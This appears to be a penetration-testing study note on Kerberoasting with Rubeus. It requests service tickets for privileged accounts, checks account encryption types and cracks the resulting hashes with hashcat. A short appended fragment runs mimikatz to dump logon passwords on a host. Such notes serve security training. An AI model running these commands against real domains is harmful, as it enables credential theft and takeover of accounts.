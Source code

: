 We can also use [Rubeus](https://github.com/GhostPack/Rubeus) from GhostPack to perform Kerberoasting even faster and easier.:
```console
PS C:\zeropio> .\Rubeus.exe
```

Rubeus include:
- Performing Kerberoasting and outputting hashes to a file
- Using alternate credentials
- Performing Kerberoasting combined with a pass-the-ticket attack
- Performing "opsec" Kerberoasting to filter out AES-enabled accounts
- Requesting tickets for accounts passwords set between a specific date range
- Placing a limit on the number of tickets requested
- Performing AES Kerberoasting

We can use Rubeus to gather some stats:
```console
PS C:\zeropio> .\Rubeus.exe kerberoast /stats
```

We can use Rubeus to request tickets for accounts with the **admincount** attribute set to **1**. Specify the `/nowrap` flag so the hash can be easily copied:
```console
PS C:\zeropio> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

### Encryption Types 

Kerberoasting tools typically request **RC4 encryption** when performing the attack and initiating TGS-REQ requests. RC4 is weakier and easier to crack offline, than other encryption algorithms like AES-128 or AES-256. Kerberoasting will usually retrieve hashes that begins with **$krb5tgs$23$**, and RC4 (type 23) ecnrypted ticket. It is possible to crack AES-128 (type 17) and AES-256 (type 18) but it will be time consuming.

Let's see an example. Getting the following ticket:
```console
PS C:\zeropio> .\Rubeus.exe kerberoast /user:test1 /nowrap

...
[*] Hash                   : $krb5tgs$23$*test1...
```

We can see it's type 23. We can check the **msDS-SupportedEncryptionTypes**. If it is set at **0** means the encryption is not defined and set default as **RC4_HMAC_MD5**:
```console
PS C:\zeropio> Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes

serviceprincipalname                   msds-supportedencryptiontypes samaccountname
--------------------                   ----------------------------- --------------
test1/kerberoast.inlanefreight.local                            0 testspn
```

If it is set to **24** it's mean that AES 128/256 encryption are the only ones supported. If we found the type **18** we will need to use hashcat mode 19700:
```console
zero@pio$ hashcat -m 19700 hash <WORDLIST>
```

---

[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit 
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
